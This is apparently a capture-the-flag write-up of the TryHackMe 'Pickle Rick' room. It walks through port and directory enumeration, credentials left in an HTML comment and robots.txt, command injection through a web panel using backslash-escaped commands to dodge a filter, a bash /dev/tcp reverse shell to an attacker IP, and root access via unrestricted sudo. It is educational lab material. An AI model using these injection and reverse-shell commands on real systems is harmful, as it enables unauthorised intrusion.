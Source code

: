 # THM - Pickle Rick Writeup

> Mario Raciti | Sep 30, 2020
>
> TryHackMe CTF Room: https://tryhackme.com/room/picklerick

### A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

There is only one task, indicating that we have to get three ingredients (flags). So without any further ado, let's begin our game!

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 00:01 CEST
Nmap scan report for 10.10.166.156
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1b:e2:11:5e:45:4a:75:91:cb:d5:ec:00:2a:1d:cf:65 (RSA)
|   256 1b:78:9f:27:b3:aa:16:c2:b4:c6:be:f8:d2:61:7f:ba (ECDSA)
|_  256 b4:66:1e:a1:27:d3:3c:cc:e1:38:44:f4:79:3c:9e:81 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.51 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Thus, we can guess that a candidate username for a login could be `R1ckRul3s`.

Now let's give a look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

Wubbalubbadubdub
```

Okay maybe `Wubbalubbadubdub` could be a password (?), that is funny though. Furthermore, by trying to discover some admin page, we can find a login page at the `/login.php`endpoint.

### Gobuster

Since we didn't find any useful information apart from the login page, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.166.156
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/01 00:13:36 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2020/10/01 00:13:49 Finished
===============================================================
```

As we can see, the tool found only one directory: `/assets`. Therefore we can investigate on that:

```
GET http://$IP/assets/

Parent Directory	 	-	 
bootstrap.min.css	2019-02-10 16:37	119K	 
bootstrap.min.js	2019-02-10 16:37	37K	 
fail.gif	2019-02-10 16:37	49K	 
jquery.min.js	2019-02-10 16:37	85K	 
picklerick.gif	2019-02-10 16:37	222K	 
portal.jpg	2019-02-10 16:37	50K	 
rickandmorty.jpeg	2019-02-10 16:37	488K	 
```

It seems that we found some... rubbish!

## First ingredient

Let's try the `R1ckRul3s:Wubbalubbadubdub` login combination in the portal login page found at `$IP/login.php`.

Bingo! We have access to the command panel. Thus, we can try to execute an ls command to see if there is something interesting:

```sh
$ ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

We can try to read the content of `Sup3rS3cretPickl3Ingred.txt`:

```sh
$ cat Sup3rS3cretPickl3Ingred.txt

Command disabled to make it hard for future PICKLEEEE RICCCKKKK
```

Damn. But we can bypass that by escaping every char with a backslash:

```sh
$ \c\a\t Sup3rS3cretPickl3Ingred.txt

***first_ingredient***
```

## Second ingredient

Let's read the content of the `clue.txt` file:

```sh
$ \c\a\t clue.txt

Look around the file system for the other ingredient.
```

Since we can perform command injections, we can try to get a reverse shell. Firstly, we can run netcat and make it listen on port 4444, then we can simply execute the following in the command panel webpage:

```sh
$ bash -c "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"
```

And voilà! We got a reverse shell:

```sh
$ nc -lvnp 4444

Connection from 10.10.166.156:56724
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-166-156:/var/www/html$ 
```

Now we can go in the home directory and find the second ingredient in Rick's home:

```sh
www-data@ip-10-10-166-156:/var/www/html$ cd ../../home
cd ../../home
bash: cd: ../../home: No such file or directory
www-data@ip-10-10-166-156:/var/www/html$ cd ../../../home
cd ../../../home
www-data@ip-10-10-166-156:/home$ ls
ls
rick
ubuntu
www-data@ip-10-10-166-156:/home$ cd rick
cd rick
www-data@ip-10-10-166-156:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-166-156:/home/rick$ cat *
cat *
***second_ingredient***
```

## Third ingredient

In order to get the latest ingredient we have to elevate our privileges. Let's check out a `sudo -l` for our current user, `www-data`:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-166-156.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-166-156.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, easy peasy! It seems that the user `www-data` is allowed to perform all commands as root. We can finally get the third ingredient:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo su
sudo su
/bin/bash -i
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-166-156:/var/www/html# cd 
cd
root@ip-10-10-166-156:~# ls 
ls 
3rd.txt
snap
root@ip-10-10-166-156:~# cat 3rd.txt
cat 3rd.txt
***third_ingredient***
```

---

### That's all folks!
